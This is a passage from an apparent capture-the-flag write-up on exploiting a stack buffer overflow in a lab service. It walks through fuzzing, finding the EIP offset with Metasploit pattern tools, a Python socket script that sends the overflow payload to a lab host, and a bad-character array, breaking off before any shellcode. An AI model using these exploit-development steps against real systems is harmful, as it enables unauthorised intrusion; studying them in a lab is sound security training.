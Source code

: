 - Send through 5000 a's and see if we can overwrite the EIP register
- lets run our a.py ``print ("A" *5000)`` and send through the A's via netcat

![0xskar](/assets/gatekeeper02.png)

- Now lets find our offset.

- ``msf-pattern_create -l 5000`` and send in netcat and note the EIP "39654138"

![0xskar](/assets/gatekeeper03.png)

- ``msf-pattern_offset -l 5000 -q 39654138`` and look for an exact match offset 

![0xskar](/assets/gatekeeper04.png)

- Since we have an exact offset at 146 lets edit our code to send payloads so we can look for badchars.

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',31337))
      s.send(payload + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

![0xskar](/assets/gatekeeper05.png)

- we control the EIP since we have overwritten with our B's 42424242

- now we need to find the badchars
- generate bytearray in immunity ``!mona bytearray -b "\x00"``
- update our code with the badchard variable from [Cytopia](https://github.com/cytopia/badchars)

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
```
